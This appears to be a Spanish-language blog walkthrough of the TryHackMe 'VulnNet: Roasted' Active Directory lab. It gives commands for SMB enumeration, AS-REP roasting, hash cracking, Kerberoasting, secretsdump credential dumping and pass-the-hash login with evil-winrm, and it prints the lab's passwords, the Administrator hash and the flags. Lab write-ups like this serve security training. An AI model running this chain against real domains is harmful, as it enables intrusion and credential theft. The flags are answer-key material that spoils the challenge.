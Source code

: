 ```yaml
---
layout:   post
title:    "Walkthrough VulnNet: Roasted."
subtitle: "Starting-Point"
category:   THM
tags:      [Easy,Windows,ASREPRoast,Kerberoasting,Windows-Server,Active-Directory,Walkthrough,Starting-Point,OSCP,EvilWinRM]
---
```

![list](/assets/img/vulnnet/vulnnet.png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
sudo nmap --open -p- -Pn -n -vvv --min-rate 5000 -sS 10.10.244.143 -oG allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comando anterior podremos saber que versiones y servicios que corren en los mismo de ahi podremos determinara posibles vulnerabilidades.

Esto lo hacemos con el siguiente comando.

```bash
nmap -sCV -p53,135,139,445,5985,49665 10.10.244.143 -oN target -Pn
```



![list](/assets/img/vulnnet/Kali-2022-09-19-14-19-50.png){:.lead width="800" height="100" loading="lazy"}


El paso anterior no es nesesario ser (root).
{:.note title="Attention"}
***
## Analisis de vulnerabilidades

Estando abierto los puertos 139 y 445 imediatamente lo que debemos hacer es tratar de explotar el smb,esto lo hacemos con crackmapexec, smbclient,smbmap entre otros.

![list](/assets/img/vulnnet/Kali-2022-09-19-14-31-26.png){:.lead width="800" height="100" loading="lazy"}

```bash
smbclient -L 10.10.244.143 -N
```


{:.note}
Listamos los shares.

Con crackmapexec vemos si el smb esta firmado ademas del dominio entre ota informacion.

![list](/assets/img/vulnnet/Kali-2022-09-19-14-32-17.png){:.lead width="800" height="100" loading="lazy"}

```bash
crackmapexec smb 10.10.244.143
```
{:.note}
El doninio es `vulnnet-rst.local` lo ,lo agrgamos al `/etc/hosts`.



Los siguiente es movernos por el recurso smb o crearnos una montura pero en este caso como vemos que hay dos shares con user anonymous esto lo deducimos por su nombre, si husmeamos en dichos sharea nos encontramos con archivos.txt que podemos bajarnos a la maquina atacante, simplemente son conversaciones entre usuarios del sitema lo cual es bueno por lo cual podemos enumerar dichos usuarioa para hacer el ataque de [ASREPRoast], el cual implica en tener usuarios del sistema para consegir un hash. 

![list](/assets/img/vulnnet/Kali-2022-09-19-14-46-29.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Nos habla de un usuario alexa whitehat que es business manager de la empresa.

![list](/assets/img/vulnnet/Kali-2022-09-19-14-46-40.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Un tal jack goldenhand que el se encarga de las propuestas de negocios.

![list](/assets/img/vulnnet/Kali-2022-09-19-14-46-46.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Nada interesante.

![list](/assets/img/vulnnet/Kali-2022-09-19-14-50-38.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Nada interesante.

![list](/assets/img/vulnnet/Kali-2022-09-19-14-50-58.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Tony skid es el security manager a este debemos prestarle mas atencion por rol en la empresa.

![list](/assets/img/vulnnet/Kali-2022-09-19-14-51-11.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Johnny leet jefe de infraestructura.

[ASREPRoast]: https://www.hackplayers.com/2020/11/asreproast-o-as-rep-roasting.html#:~:text=El%20ASREPRoast%20es%20una%20t%C3%A9cnica,requiere%20pre%2Dautenticaci%C3%B3n%20en%20kerberos.

Exite varias herramentas que enumeran usauarios y grupos de smb y rcp, podemos usar `rcpclient` pero ene ste caso utilizaremos `lookupsid.py`.

```bash
lookupsid.py anonymous@10.10.244.143
```
![list](/assets/img/vulnnet/Kali-2022-09-19-15-02-03.png){:.lead width="800" height="100" loading="lazy"}

***
## Explotacion

Con los usuarios que obtubimos anteriormente podemos grepearlos o simplmente copiarlos y meterlos aun archivo txt llamado users.txt, y procedemos con el ataque ASREPRoast para esto podemos usar `kerbrute`, al caul al listado de usuario debemos agregarle el `@vulnnet-rst.local`, en este caso vamos usar [GetNPUsers.py].

```bash
GetNPUsers.py -dc-ip 10.10.244.143 -usersfile users.txt -no-pass vulnnet-rst.local/
```

![list](/assets/img/vulnnet/Kali-2022-09-19-16-06-42.png){:.lead width="800" height="100" loading="lazy"}


Copiamos el hash y lo guardamos en un archivo con el nombre `hash` procedemos a crackear lo con john the ripper de la siguiente forma.

```bash
john -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
```

![list](/assets/img/vulnnet/Kali-2022-09-19-16-08-25.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Esperamos un poco y optenemos la contraseña que es `tj072889*`. 



Por lo anterior tenemos el dominio + un usuario + una contraseña  podemos probar un ataque [Kerberosting]

```bash
GetUserSPNs.py 'vulnnet-rst.local/t-skid:tj072889*' -dc-ip 10.10.206.89
```

![list](/assets/img/vulnnet/Kali-2022-09-19-16-18-02.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Antes de segir por este camino ya que tenemos usuario y credeciales validas lo que podemos hacer loogearnos a al servicion de smb.


Nos logeamos al share de `NETLOGON` en el samba con las credeciales y encontramos un archivo.txt con credeciales validas.

```bash
smbclient -U vulnnet-rst.local/t-skid //10.10.244.143/NETLOGON
```

![list](/assets/img/vulnnet/Kali-2022-09-19-16-27-33.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Inspeccionando el archivo tenemos que strUserNTName = `a-whitehat`y strPassword = `bNdKVkjv3RR9ht`.


Con crackmapexec comprobamos si las credenciales son validad.

```bash
crackmapexec smb 10.10.206.89 -u "a-whitehat" -p "bNdKVkjv3RR9ht"
```

![list](/assets/img/vulnnet/Kali-2022-09-19-16-30-14.png){:.lead width="800" height="100" loading="lazy"}

Podemos conectarnos a la maquina y obner la flag que se encuentra en el direcctorio `/Desktop/user.txt`, es `THM{726b7c0baaac1455d05c827b5561f4ed}`.

```bash
evil-winrm -i 10.10.244.143 -u "a-whitehat" -p "bNdKVkjv3RR9ht"
```

![list](/assets/img/vulnnet/Kali-2022-09-19-17-37-50.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Tendremos que escalar privilegios para obtener la otra flag.

[Kerberosting]: https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html

[GetNPUsers.py]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py

[reverse-shell]: https://www.revshells.com/

***
## Escalacion de privilegios 

Siempre es bueno ejecutar `WimEnum` Y `ADEnum` para monitorizar y ver los posibles vectores para escalar de privilegios.

En este caso usaremos la herramienta [secretsdump.py], este script se encarga de realizar un volcado completo de los SAM/LSA Secrets, credenciales cacheadas, información sensible almacenada en el registro y los hashes NTLM del sistema.

[secretsdump.py]: https://thehackerway.com/2021/05/24/network-hacking-con-impacket-parte-3/#:~:text=Volcado%20de%20%C2%ABWindows%20Secrets%C2%BB%20con,los%20hashes%20NTLM%20del%20sistema.


```bash
secretsdump.py vulnnet-rst.local/a-whitehat@10.10.244.143
```

{:.note}
Nos muestra los secretos de la mayoria de todos los usuarios peor elque nos interesa en el de Administrator.

Con ese hash de `Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::` podemos hacer pass de hash para ingresar al usuario privilegiado de la siguiente manera.

```bash
evil-winrm -i 10.10.244.143 -u 'Administrator' -H 'c2597747aa5e43022a3a3049a3c3b09d'
```

{:.note}
Para hacer pass de hash solo nos interesa el ultimo tercio del hash de administrator.

![list](/assets/img/vulnnet/Kali-2022-09-19-17-30-29.png){:.lead width="800" height="100" loading="lazy"}


Con lo anterior ya somos root lo siguientes es bucar la root de superusuario de la misma forma que hicimos con el usuario de menos privileguios.

![list](/assets/img/vulnnet/Kali-2022-09-19-17-38-24.png){:.lead width="800" height="100" loading="lazy"}

Obtenemos la flag que se encuentra en el direcctorio `Desktop\system.txt`, es `THM{16f45e3934293a57645f8d7bf71d8d4c}`.

***
```bash
🎉 Felicitaciones ya has comprometido VulnNet: Roasted de Try Hack Me. 🎉
```
{:.centered}
***
Back to [Beginner Track Active Directory](2022-09-21-Beginner-Track-AD.md){:.heading.flip-title}
{:.read-more}
